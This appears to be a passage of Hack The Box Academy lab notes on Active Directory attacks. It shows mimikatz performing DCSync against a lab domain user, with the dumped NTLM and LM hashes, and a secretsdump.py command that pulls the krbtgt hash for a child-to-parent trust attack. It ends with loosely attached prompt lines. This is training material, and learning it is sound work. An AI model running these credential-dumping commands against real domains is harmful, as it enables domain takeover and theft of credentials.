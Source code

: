 ### **Performing a DCSync Attack against `lab_adm` domain user**

```powershell
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) ## \ / ##       > https://blog.gentilkiwi.com/mimikatz '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:

```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

## **Attacking Domain Trusts - Child -> Parent Trusts - from Linux**

#### **Performing DCSync with secretsdump.py**

```
dollarboysushil@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist